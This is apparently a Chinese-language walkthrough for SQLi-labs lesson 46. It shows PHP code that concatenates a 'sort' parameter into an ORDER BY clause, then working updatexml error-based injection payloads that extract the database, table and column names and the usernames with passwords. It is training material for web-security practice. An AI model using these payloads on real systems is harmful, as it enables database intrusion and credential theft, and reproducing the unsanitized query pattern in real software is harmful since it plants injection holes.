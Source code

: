 ```yaml
---
title: less46
url: https://www.yuque.com/u29002979/ep2zrx/mni2rpbivatmydlc
---
```


```bash
$id=$_GET['sort'];	

$sql = "SELECT * FROM users ORDER BY $id";
```

> Please input parameter as SORT with numeric value
> 请将参数输入为SORT，并输入数值

<a name="l0NTO"></a>

# 注入点检查

`?sort=1`

|  ID  |  USERNAME  |  PASSWORD  |
| --- | --- | --- |
| 1 | Dumb | Dumb |
| 2 | Angelina | I-kill-you |
| 3 | Dummy | p@ssword |
| 4 | secure | crappy |
| 5 | stupid | stupidity |
| 6 | superman | genious |
| 7 | batman | mob!le |
| 8 | admin | 1234 |
| 9 | admin1 | admin1 |
| 10 | admin2 | admin2 |
| 11 | admin3 | admin3 |
| 12 | dhakkan | dumbo |
| 14 | admin4 | admin4 |
| 15 | admin'-- + | 123456 |

`?sort=2`
可看出传入的参数。类似于ordey by 按列排序的作用 &#x20;
`?sort=4`

> Unknown column '4' in 'order clause'

<a name="gX6OV"></a>

# 报错注入

```bash
查询数据库表
?sort=1 and updatexml(1,concat(0x7e,(select database()),0x7e),1) -- +
爆破数据表
?sort=1 and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1) -- +
爆破字段名
?sort=1 and updatexml(1,concat(0x7e,(select  group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1) -- +
爆破字段
?sort=1 and updatexml(1,concat(0x7e,(select group_concat(username,0x7e,password) from users limit 0,1),0x7e),1) -- +
```
